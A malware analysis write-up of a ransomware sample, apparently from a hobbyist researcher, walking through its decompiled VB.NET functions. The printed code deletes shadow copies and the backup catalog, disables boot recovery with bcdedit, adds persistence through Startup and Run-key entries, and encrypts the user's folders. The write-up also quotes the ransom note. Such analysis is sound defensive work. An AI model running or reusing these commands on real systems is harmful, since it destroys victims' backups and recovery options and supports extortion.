 # Analysis Lizard Squad Ransomware 


[Twitter](https://twitter.com/patri1ck)


Hello Guys ,Today We Will Analysis Ransomware Sample That I Found On Twitter Account [Tweet](https://twitter.com/petrovic082/status/1546833472353968129?s=21) 

Let's Dive Into It 

## Functions 
- [Delete Shadow Copies](#Delete-Shadow-Copies:)
- [Disable Recovery Mode](#Disable-Recovery-Mode:)
- [Delete Backup Catalog](#Delete-Backup-Catalog:)
- [Add Link To Startup](#Add-Link-To-Startup:)
- [Registry Startup](#Registry-Startup:)
- [look For Directories](#look-For-Directories:)
- [Set Wallpaper](#Set-Wallpaper:)
- [Add And Open Note](#Add-And-Open-Note:)

## Delete Shadow Copies:
    Will Execute This Command :
        "vssadmin delete shadows /all /quiet & wmic shadowcopy delete"
    For Delete Shadows copies
<details>
    <summary>Code (click to expand/collapse)</summary>

```vb
Private Shared Sub DeleteShadowCopies()
    Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete")
End Sub
```

</details>

## Disable Recovery Mode:
    Will Execute This Command :
        "bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no"
	to Disable Recovery Mode This Command will Not Allow To The Victim To Use The Recovery Mode 
<details>
    <summary>Code (click to expand/collapse)</summary>

```vb
Private Shared Sub DisableRecoveryMode()
    Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no")
End Sub
```	

</details>

## Delete Backup Catalog:
	Will Execute This Command :
		"wbadmin delete catalog -quiet"
	To Delete BackUp Catalog 
<details>
    <summary>Code (click to expand/collapse)</summary>

```vb	
Private Shared Sub DisableRecoveryMode()
    Program.runCommand("wbadmin delete catalog -quiet")
End Sub
```

</details>

## Add Link To Startup:
    Make lnk File in startup 
	For persistence
<details>
    <summary>Code (click to expand/collapse)</summary>

```vb
Private Shared Sub AddLinkToStartup()
	Dim folderPath As String = Enviroment.GetFolderPath(Enviroment.SpecialFolder.Startup)
	Dim str As String = Process.GetCurrentProcess().ProcessName
	Using streamWriter As StreamWriter = New StreamWriter(folderPath + "\" + str + ".url")
		Dim location As String = Assembly.GetExecutingAssembly().location
		streamWriter.WriteLine("[InternetShortcut]")
		streamWriter.WriteLine("URL=file:///"+location)
		streamWriter.WriteLine("iconIndex=0")
		Dim str2 As String = location.Replace("\"c,"/"c)
		streamWriter.WriteLine("IconFile=" + str2)
		End Using
End Sub
```

</details>

## Registry Startup:
    Set Registry Name Value "Microsoft Store" And Will Set Registry Value Data to The RansomWare Path 
	The Key :
		"HKCU/SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	To Do persistence
## look For Directories:
	This Function Will Look For Directories And Encrypted It
	The List Of The Directories as Saved As String With User Main Dir 
- Desktop
- Links
- Contacts
- Documents
- Downloads
- Pictures
- Music
- OneDrive
- Saved Games
- Favorites
- Searches
- Videos

<details>
    <summary>Code (click to expand/collapse)</summary>

```vb
Dim location As String = Program.userDir + Program.userName + "\Desktop"
Dim location2 As String = Program.userDir + Program.userName + "\Links"
Dim location3 As String = Program.userDir + Program.userName + "\Contacts"
Dim location4 As String = Program.userDir + Program.userName + "\Desktop"
Dim location5 As String = Program.userDir + Program.userName + "\Documents"
Dim location6 As String = Program.userDir + Program.userName + "\Downloads"
Dim location7 As String = Program.userDir + Program.userName + "\Pictures"
Dim location8 As String = Program.userDir + Program.userName + "\Music"
Dim location9 As String = Program.userDir + Program.userName + "\OneDrive"
Dim location10 As String = Program.userDir + Program.userName + "\Saved Games"
Dim location11 As String = Program.userDir + Program.userName + "\Favorites"
Dim location12 As String = Program.userDir + Program.userName + "\Searches"
Dim location13 As String = Program.userDir + Program.userName + "\Videos"
Program.encryptDirectory(location)
Program.encryptDirectory(location2)
Program.encryptDirectory(location3)
Program.encryptDirectory(location4)
Program.encryptDirectory(location5)
Program.encryptDirectory(location6)
Program.encryptDirectory(location7)
Program.encryptDirectory(location8)
Program.encryptDirectory(location9)
Program.encryptDirectory(location10)
Program.encryptDirectory(location11)
Program.encryptDirectory(location12)
Program.encryptDirectory(location13) 
```
### !Dump! He Could Do It With For Loop !

</details>

## Set Wallpaper:
    This func Will Change The Wallpaper
	To This Image :
[![N|Solid](https://pbs.twimg.com/media/FXd016dXoAYn99q?format=jpg&name=small)
<details>
    <summary>Code (click to expand/collapse)</summary>

```vb
Public Shared Sub SetWallpaper(base64 As string)
  if base64 <> "" Then
    Try
      Dim text As String = Path.GetTempPath() + Program.RandomString(9) + ".jpg"
      File.WriteAllBytes(text,Convert.FromBase64String(base64))
      Program.SystemParametersInfo(20UI, 0UI,text,1UI)
    Catch
    End Try
  End If
End Sub
```

</details>
	
## Add And Open Note:
    This Function Will Write Message For Victim
	The Name Of a File "說明it.txt" 
	And The Message :
	"我來自一個名為：蜥蜴小隊的國際組織", "我們是黑客組織", "我的名字是：09先生", "我會用你的電腦作為收款的抵押品", "", "請支付：USDT-TRC20", "金額：2000", "付款地址：TRZRAM9KL5qv1BMrXxo876wetHfzT19sii", "聯繫方式 ：woo090909@mail2tor.com", "電報：@woo090909", "付款後聯繫我，我會為你解鎖", "如果您不付款，您的計算機和文件將被自動銷毀，", "如果你真的想解決，請隨時支付費用，聯繫我，我會考慮給你打折", 
	"I'm from an international organization called: Lizard Squad , we are a hacker group , My name is: Mr. 09 , I will use your computer as collateral for collection , Please pay: USDT-TRC20 , Amount: 2000 , Payment address: TRZRAM9KL5qv1BMrXxo876wetHfzT19sii , contact details : woo090909@mail2tor.com , telegraph: @woo090909 , Contact me after payment and I will unlock it for you , If you do not pay, your computer and files will be automatically destroyed , If you really want a fix, feel free to pay the fee, contact me and I'll consider giving you a discount" 
Hmmm , The Name Of The Group Looks Familiar To Me :
	https://en.wikipedia.org/wiki/Lizard_Squad

> it seems To me The Ransomware Has Been Built By Ransomware Builder Because I Found It In The source Code , there are Functions Not Used By The Ransomware Sample That I Have And I See Settings Strings Not Used


